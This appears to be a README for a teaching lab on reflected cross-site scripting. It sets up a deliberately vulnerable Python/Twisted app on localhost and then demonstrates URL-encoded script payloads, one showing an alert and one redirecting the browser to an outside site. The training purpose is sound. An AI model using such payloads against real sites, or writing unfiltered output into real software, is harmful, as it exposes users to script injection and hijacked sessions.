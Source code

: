 ### How to run

In Ubuntu/Debian:

```
sudo apt-get install python3
mkdir xss
cd xss
python3 -m venv venv
venv/bin/pip3 install twisted
wget https://raw.githubusercontent.com/leonov-av/vuledap/main/XSS/xss.py
venv/bin/python3 xss.py
```
This should start a vulnerable application http://localhost:8880

### What does this app do
The application takes the name parameter from the GET request and greets the user by name.

http://localhost:8880?name=Alexander

```
$ curl "http://localhost:8880?name=Alexander"
<html><body>Hello Alexander!</body></html>
```

As you can see, we place the name into the html code without any filtering. So, we can add any html tags there. for example ```<b>Alexander</b>``` will make the text bold. In the same manner we can add some JavaScript there. 

### How to attack

Use Firefox browser for demo

1. Show allert message

http://localhost:8880/?name=%3Cscript%3Ealert%28%22123%22%29%3C%2Fscript%3E
```
$ curl "http://localhost:8880/?name=<script>alert("123")</script>"
<html><body>Hello <script>alert(123)</script>!</body></html>
```

2. Make redirection

http://localhost:8880/?name=%3Cscript%3Ewindow.location%20%3D%20%22http%3A%2F%2Fwww.avleonov.com%22%3C%2Fscript%3E

